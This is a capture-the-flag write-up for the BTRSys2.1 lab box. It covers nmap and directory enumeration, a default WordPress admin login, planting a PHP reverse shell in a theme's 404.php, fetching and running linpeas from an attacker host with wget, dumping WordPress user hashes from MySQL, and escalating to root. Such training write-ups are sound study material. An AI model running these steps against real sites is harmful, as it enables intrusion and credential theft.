 ```yaml
---
title: "[Practice] Proving Grounds: BTRSys2.1"
---
```


This is a write up for the box BTRSys2.1 on proving grounds. It's a part of the get to work series and is a free to play box that is Linux based.

## Enumeration
---
Starting off by kicking off autorecon to enumerate the services running off the box.

If you do not use autorecon I have left the basic nmap scripts that are essentially being executed.

``` bash
nmap -vv --reason -Pn -A --osscan-guess --version-all -p- $ip
```
```
Nmap scan report for 192.168.162.50
Host is up, received user-set (0.021s latency).
Scanned at 2021-10-11 17:55:47 EDT for 54s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:ee:e3:ff:31:20:87:6c:12:e7:1c:aa:c4:e7:54:f2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKrYYWK3Xv2EBb0KryPAargHdeVdVuGj+AHTUbH1CyLIuQ3zbtaq2+lr5K/aMqiJ5othz27+RWSJ2NmQ2JeOUBCogFLikCwU6MRDQLHpV+neS3fAKrH5fNnXo+RfnMWBLQaaXBPiUOQaoQc27hRN3SJ1hbVLEF65TY0siTrOj0Lt8SRztwkbfynHEKxMsQi5WWDLTgS7bivCf9VVWwqgmuBbsJAqFExDjLxlxJpH4+93bgEtD9EPV/KKO9B3Inaz8PxC+zXZofhZXloysYoGg4IZzT55JzrRVRuv/cbGcMuGTBpCCkdH01G4NCSgL7YwX13C1Qc+EFX1QExV6k1ePD
|   256 ad:e1:1c:7d:e7:86:76:be:9a:a8:bd:b9:68:92:77:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFTsqff4O0hsl+RUR2lXFcbCEkvFcspHALA2RR2DpoD2AlRN/DEpIbW3NETNXxxyKHTtGhUiBSUuw8S9RSBAsnY=
|   256 0c:e1:eb:06:0c:5c:b5:cc:1b:d1:fa:56:06:22:31:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH91w++CdkbeAkmXYietVhD/73nEaXR/nbeBEyuwLwgq
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.11 - 4.1 (95%), Linux 4.4 (95%), Linux 3.16 (94%), Linux 3.13 (92%), Linux 3.10 - 3.16 (92%), Linux 3.10 - 3.12 (91%), Linux 2.6.32 (91%), Linux 3.2 - 3.8 (91%), Linux 3.8 (91%), WatchGuard Fireware 11.8 (91%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/11%OT=21%CT=1%CU=43495%PV=Y%DS=2%DC=T%G=Y%TM=6164B3
OS:19%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=
OS:102%GCD=1%ISR=10A%TI=Z%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT
OS:11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=7120%W2=7120%W3=7
OS:120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M506NNSNW7%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

Nmap Summary:
- Port 21 FTP
- Port 22 SSH
- Port 80 HTTP

After noticing we have port 80 open I immediately go to the page and we find nothing interesting in the page source. It's basically just a gif. 

<img src="/assets/resources/btrsys2.1/home_page.png">

(Autorecon already did some directory busting btw saving me time see command below)

```
feroxbuster -u http://192.168.162.50:80 -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -v -k
```

I review the feroxbuster report and notice that we have the findings below:

```
Relevant Findings
403       11l       32w      302c http://192.168.162.50/server-status
301        9l       28w      317c http://192.168.162.50/upload
301        9l       28w      320c http://192.168.162.50/wordpress
```

We now know the server is running wordpress so we can begin to browse this page for a potential login page. I am going to start wpscan on it since it can help quickly enumerate version numbers and any plugins that might be on vulnerable.

Nothing crazy came up from the wpscan findings so I go ahead and see that there is a wp-login page though present on the site.

I tried some quick default credentials and was able to get in on the first try with: admin:admin

Lucky guess usually its the first one I try. If you didnt try this we would be able to use wpscan to bruteforce our way in!

We know admin is a valid user to btw since there was some information disclosure when trying to Login.


```bash
wpscan --url <ip> --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```
<img src="/assets/resources/btrsys2.1/wordpress_user_disclosure.png">

## Exploitation
---
Now that we are actually in the wordpress admin portal we can play around with some of the settings. I noticed that there aren't any crazy unusual plugins that we can modify and wpscan didn't really give us that much helpful information either.

I do know however that the server is running apache which is able to execute php code.

We have the ability to edit the themes (Appearance > Theme Editor) php files so we can easily replace the code with malicious php that can be used as a reverse shell.

I will be using the pentest monkey reverse shell which can be found here > https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Editing the pentestmonkey php file
<br>
<img src="/assets/resources/btrsys2.1/pentest_monkey.png">

Replacing the contents of 404.php
<br>
<img src="/assets/resources/btrsys2.1/php_replaced.png">

Just download the file edit variables $ip and $port to the IP of your attack box and the port you want to listen for a connection on.

Now after we replaced the 404.php file like shown in the screenshot we will be starting a nc listener on port 1234

```
nc -nvlp 1234
```

To execute the shell we have to browse to the themes directory where 404.php is stored. If you do not know where the 404.php page would be located we can github the template being used then find it there.

Typically its in this directory: /wp-content/themes/twentyfourteen/404.php for future reference

<img src="/assets/resources/btrsys2.1/reverse_shell_execution.png">


## Privilege Escalation
---

Once we are in we have a dumb shell without a proper tty

We can use python to update it

First I checked to see which version we have

Confirmed we have python3 installed

Fixed our tty issue using:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<img src="/assets/resources/btrsys2.1/tty_fix.png">

Going to automate a lot of the manual commands such as looking at /etc/passwd, /etc/crontab and looking for passwords as well as SUID SGUID with linpeas

going over to the /tmp folder

hosting a webserver on my kali box in the directory im hosting linpeas using updog

updog -p 80

Now I will download the file to the machine using wget

```
wget $ip/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```
Reading the linpeas.sh output here are a lot of the things I am looking for:
Kernel Exploit? No
Capability? No
SGID/SUID? No
Credentials? Yes

We found the following credentials in the mkasdklnasd file we can use it to connect to a mysql db.

<img src="/assets/resources/btrsys2.1/db_password.png">

Commands Used to connect to DB:

```
mysql -u root -p rootpassword!

showdatabases;

use wordpress;

show tables;

select * from wp_users;
```

After viewing the wp_users table we notice that we get hashses for root and admin.

I used crackstation to crack them and got the following results:

root:roottoor
admin:admin

Example:
<img src="/assets/resources/btrsys2.1/root_hash_cracked.png">

Now that we have the root password all we have to do is switch to the root user.

```
www-data@ubuntu:/home/btrisk$ su root                                                                                                                                              
su root                                                                                                                                                                            
Password: roottoor                                                                                                                                                                 
                                                                                                                       
```                                                                                                                                                                              

We have now succesfully rooted this box!
